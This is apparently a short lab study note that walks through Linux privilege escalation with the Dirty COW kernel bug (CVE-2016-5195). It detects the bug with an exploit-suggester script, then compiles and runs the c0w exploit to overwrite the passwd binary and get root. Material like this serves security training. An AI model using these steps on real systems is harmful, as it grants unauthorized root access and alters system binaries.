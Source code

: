 #Linux #PrivEsc #kernel #dirtycow #CVE-2016-5195 #gcc

[kernel-exploits](https://github.com/lucyoa/kernel-exploits)

# Detection  
Linux VM

1. In command prompt type:
	- `/home/user/tools/linux-exploit-suggester/linux-exploit-suggester.sh`
2. From the output, notice that the OS is vulnerable to [dirtycow](https://github.com/dirtycow/dirtycow.github.io/wiki/VulnerabilityDetails). #dirtycow

# Exploitation
Linux VM

1. In command prompt type:
	- `gcc -pthread /home/user/tools/dirtycow/c0w.c -o c0w`
2. In command prompt type: `./c0w`

**Disclaimer: This part takes 1-2 minutes - Please allow it some time to work.**

3. In command prompt type: `passwd`
4. In command prompt type: `id`

From here, either copy `/tmp/passwd` back to `/usr/bin/passwd` or reset your machine to undo changes made to the `passwd` binary
